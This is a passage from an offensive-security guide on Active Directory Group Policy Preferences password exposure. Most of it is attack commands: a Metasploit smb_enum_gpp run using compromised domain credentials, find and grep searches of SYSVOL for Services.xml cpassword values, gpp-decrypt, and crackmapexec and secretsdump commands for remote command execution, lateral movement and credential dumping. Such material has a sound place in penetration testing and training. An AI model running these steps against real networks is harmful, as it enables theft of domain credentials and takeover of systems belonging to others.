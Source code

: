 ### Scenario 2: Automated Discovery with Metasploit
```bash
# 1. Use compromised domain credentials
# Example: user:password from previous attack

# 2. Run Metasploit GPP enumeration
msf6 > use auxiliary/scanner/smb/smb_enum_gpp
msf6 auxiliary(smb_enum_gpp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(smb_enum_gpp) > set SMBDomain company.local
msf6 auxiliary(smb_enum_gpp) > set SMBUser compromised_user
msf6 auxiliary(smb_enum_gpp) > set SMBPass password123
msf6 auxiliary(smb_enum_gpp) > run

# 3. Metasploit automatically:
# - Connects to SYSVOL shares on all DCs
# - Downloads and parses GPP files
# - Decrypts cpassword values
# - Presents cleartext credentials

# 4. Use discovered credentials for lateral movement
# Example: service account with admin rights on multiple servers
```

### Scenario 3: Service Account Discovery
```bash
# Services.xml often contains service account passwords
# 1. Look for Services.xml files in SYSVOL
find /mnt/sysvol -name "Services.xml"

# 2. Extract service account credentials
grep -A5 -B5 "cpassword=" Services.xml

# Example Services.xml content:
# <Service clsid="{...}" name="MyService" image="2" changed="2016-01-15 10:30:00">
#   <Properties startupType="Automatic" 
#               serviceName="MyService"
#               accountName="DOMAIN\svc_service"
#               cpassword="encryptedServicePassword"/>
# </Service>

# 3. Decrypt service account password
gpp-decrypt "encryptedServicePassword"

# Result: Often reveals highly privileged service accounts
```

## Post-Exploitation

### Using Discovered Credentials
```bash
# Test credential validity across domain
crackmapexec smb 192.168.1.0/24 -u new_local_admin -p '$uP3r5ekr1tpass' --local-auth

# Check for admin rights
crackmapexec smb 192.168.1.0/24 -u new_local_admin -p '$uP3r5ekr1tpass' --local-auth --pwn3d

# Execute commands on compromised systems
crackmapexec smb 192.168.1.50 -u new_local_admin -p '$uP3r5ekr1tpass' --local-auth -x "whoami"

# Dump local credentials
secretsdump.py new_local_admin:'$uP3r5ekr1tpass'@192.168.1.50
```
